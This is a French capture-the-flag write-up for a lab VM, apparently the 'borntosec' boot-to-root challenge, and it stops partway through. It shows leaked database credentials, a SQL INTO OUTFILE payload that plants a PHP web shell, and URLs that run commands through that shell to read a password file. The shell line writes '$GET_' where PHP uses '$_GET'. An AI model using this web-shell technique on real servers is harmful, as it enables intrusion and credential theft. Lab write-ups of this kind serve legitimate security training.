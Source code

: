 On tombe sur sa boite mail avec deux mails :
L'un d'entre eux est : DB Access et contient :

```bash
            Hey Laurie,

            You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

            Best regards.
```

## PhpMyAdmin

Maybe sur la page https://192.168.0.30/phpmyadmin/ ?

Les identifiants ont marché, on voit qu'il y a une base de données : forum_db

En se connectant sur phpmyadmin en tant que root, on peut utiliser la fenetre de commandes sql.
Quand on regarde la structure de mylittleforum, il y a un dossier templates_c. Quand on navigue dessus, on voit plusieurs fichiers php sur lesquels on peut naviguer.
Si on arrive a creer une page php ici on pourra lui faire executer des commandes.
Dans la fenetre de commandes SQL on lance :

```bash
SELECT "<?php system($GET_['exploit']) ?>" INTO OUTFILE "/var/www/forum/templates_c/exploit.php"
```

Cela cree le ficher exploit.php sur lequel on peut naviguer et auquel on peut passer des commandes dans l'URL

En fouillant dans le serveur, on fini par tomber sur :

```bash
https://192.168.56.3/forum/templates_c/exploit.php?exploit=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz
https://192.168.56.3/forum/templates_c/exploit.php?exploit=ls%20/home/LOOKATME
password
https://192.168.56.3/forum/templates_c/exploit.php?exploit=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Avec cet identifiant et ce mot de passe, on peut se connecter sur la VM
Dans le home de lmezard, il y a un fichier `fun` et un ficher `README` qui nous challenge a trouver la solution du probleme.

Le fichier fun comporte des strings, des noms de fichiers, etc. La string ustar revient souvent, et on en deduit que le fichier est un fichier tar.

```bash
`tar -C /tmp -xvf fun`
```

Et on obtient plein de fichiers. Certains comportent des strings interessantes : "getme()". On trouve :

```bash
            grep -A2 getme /tmp/ft_fun/*
```
